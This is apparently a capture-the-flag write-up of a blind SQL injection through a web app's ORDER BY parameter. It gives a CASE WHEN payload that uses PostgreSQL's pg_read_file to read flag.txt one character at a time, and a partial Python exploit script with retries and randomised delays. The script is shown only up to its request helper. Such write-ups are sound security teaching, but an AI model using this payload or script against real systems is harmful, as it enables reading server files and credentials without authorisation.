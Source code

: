 The app likely executes:

```sql
SELECT ... FROM dogs ORDER BY <user-input>
```

We can inject a `CASE WHEN ... THEN name ELSE breed END` expression to influence ordering based on a boolean condition.
This turns the response into a binary oracle:

- If condition is true then first name stays the same.

- If false: order changes.

we use PostgreSQL’s  `pg_read_file()` to read files, use  `substr()` + `ascii()` to extract characters one at a time, wrap in a `CASE WHEN` to drive the sort order:

```sql
CASE WHEN (ascii(substr(trim(pg_read_file('flag.txt')),pos,1)) >= mid)
     THEN name ELSE breed END
```
Solution script:

```python
import requests, re, urllib.parse, time, random, sys
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

BASE = "http://52.59.124.14:5021/"
FILE = "flag.txt"
TIMEOUT = 10

def new_session():
    s = requests.Session()
    retry = Retry(
        total=6,
        backoff_factor=0.4,
        status_forcelist=[429, 500, 502, 503, 504],
        allowed_methods=frozenset(["GET"]),
        raise_on_status=False,
    )
    adapter = HTTPAdapter(max_retries=retry, pool_connections=10, pool_maxsize=10)
    s.mount("http://", adapter)
    s.headers.update({
        "User-Agent": "Mozilla/5.0",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close",
    })
    return s

s = new_session()

def get_names(order_expr):
    time.sleep(0.18 + random.random()*0.15)
    url = (BASE + "?name=&breed=&min_age=&max_age=&page=1&order=" +
           urllib.parse.quote(order_expr + "--\n"))
    for attempt in range(5):
        try:
            r = s.get(url, timeout=TIMEOUT)
            r.raise_for_status()
            names = re.findall(r'<div class="dog-title">([^<]+) <span class="age">', r.text)
            if names: 
                return names
            return names
        except requests.RequestException:
            globals()['s'] = new_session()
            time.sleep(0.4*(attempt+1) + random.random()*0.2)
    raise
```